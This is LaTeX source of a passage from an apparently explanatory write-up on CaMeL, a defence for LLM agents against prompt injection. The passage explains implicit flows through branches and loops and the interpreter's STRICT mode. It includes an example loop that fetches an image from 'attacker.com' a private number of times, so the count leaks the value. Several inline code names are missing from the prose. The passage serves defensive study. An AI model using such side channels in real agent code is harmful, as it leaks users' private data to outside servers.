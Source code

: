 \subsection{Dependencies through control flow}
\label{sec:camel:strict}

Data can influence other data without being copied into it.
Consider the request :
\begin{lstlisting}[language=python,style=camel]
email = get_emails(1)[0]
date = get_current_day()
if query_ai_assistant(
        f"Is this email about a meeting on the day "
        f"after {date}?\n{email}", bool):
    send_email(email.body, email.subject,
               "email@example.com")
\end{lstlisting}
The arguments to  depend only on .
But \emph{whether}  runs depends on the Q-LLM's answer,
and an observer who sees whether an email arrives learns one bit about
the Q-LLM's inputs.
This is the \emph{implicit flow} problem familiar from taint tracking:
information flows through branches, not just through assignments.

Here is a starker version, in which nothing private is ever passed to a
tool:
\begin{lstlisting}[language=python,style=camel]
# private has value 10 and is not public
for i in range(private):
    fetch_external_image("attacker.com/cat.jpg")
\end{lstlisting}
The attacker's web server counts the requests from the user's IP address
and learns that  is 10.

CaMeL's interpreter has two modes.
In \textbf{NORMAL} mode, only direct data dependencies are recorded.
In \textbf{STRICT} mode, every statement inside an  or
 block also depends on the block's condition or iterable.
In STRICT mode, the image fetch above depends on , so a
policy requiring that everything involved in a web request be public
blocks it.
STRICT mode is safer, but because more values depend on untrusted data,
policies are triggered more often; in the paper's experiments, the
fraction of tasks that triggered a policy rose from about 34\% to about
53\%.

\section{How well does it work?}

